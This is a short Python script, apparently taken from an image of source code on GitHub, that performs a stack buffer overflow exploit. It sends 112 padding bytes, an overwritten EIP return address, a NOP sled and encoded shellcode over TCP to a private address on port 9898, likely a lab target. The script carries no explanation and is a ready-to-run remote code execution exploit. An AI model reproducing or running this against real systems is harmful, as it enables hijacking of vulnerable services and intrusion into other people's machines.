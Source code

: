 
---
#!/usr/bin/env python3

import socket

offset = 112
before_eip = b"A" * offset

eip = b"\x55\x9d\x04\x08"

shellcode =  b""
shellcode += b"\xd9\xc3\xbe\xb5\xa5\x85\x35\xd9\x74\x24\xf4"
shellcode += b"\x5a\x33\xc9\xb1\x12\x83\xea\xfc\x31\x72\x13"
shellcode += b"\x03\xc7\xb6\x67\xc0\x16\x62\x90\xc8\x0b\xd7"
shellcode += b"\x0c\x65\xa9\x5e\x53\xc9\xcb\xad\x14\xb9\x4a"
shellcode += b"\x9e\x2a\x73\xec\x97\x2d\x72\x84\xe7\x66\xe0"
shellcode += b"\xd4\x80\x74\xe9\xc1\xe3\xf0\x08\x59\x65\x53"
shellcode += b"\x9a\xca\xd9\x50\x95\x0d\xd0\xd7\xf7\xa5\x85"
shellcode += b"\xf8\x84\x5d\x32\x28\x44\xff\xab\xbf\x79\xad"
shellcode += b"\x78\x49\x9c\xe1\x74\x84\xdf"

after_eip = b"\x90"*32 + shellcode

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.100.129", 9898))
s.send(payload)
s.close()